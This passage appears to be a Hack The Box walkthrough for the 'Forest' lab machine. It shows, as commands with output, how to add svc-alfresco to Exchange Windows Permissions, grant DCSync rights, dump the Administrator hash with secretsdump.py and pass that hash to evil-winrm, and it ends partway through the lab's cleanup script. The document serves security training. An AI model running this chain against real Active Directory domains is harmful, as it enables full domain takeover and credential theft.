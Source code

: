 Then we can check the special group member
```
net group 'Exchange Windows Permissions'

Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members
-------------------------------------------------------------------------------
svc-alfresco             
The command completed successfully.
```


If I run that on Forest, it returns without error:
```
*Evil-WinRM* PS C:\> Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

I can also run secretsdump.py and get hashes:
```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::

```

Then we can use `evil-winrm` to shell as SYSTEM.
```
evil-winrm -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

Beyond the root:
There is a cleanup powershell script 
```
C:\Users\Administrator\Documents> type revert.ps1

Import-Module C:\Users\Administrator\Documents\PowerView.ps1

$users = Get-Content C:\Users\Administrator\Documents\users.txt

while($true)

{
    Start-Sleep 60

    Set-ADAccountPassword -Identity svc-alfresco -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "s3rvice" -Force)

    Foreach ($user in $users) {
        $groups = Get-ADPrincipalGroupMembership -Identity $user | where {$_.Name -ne "Service Accounts"}

        Remove-DomainObjectAcl -PrincipalIdentity $user -Rights DCSync

        if ($groups -ne $null){
```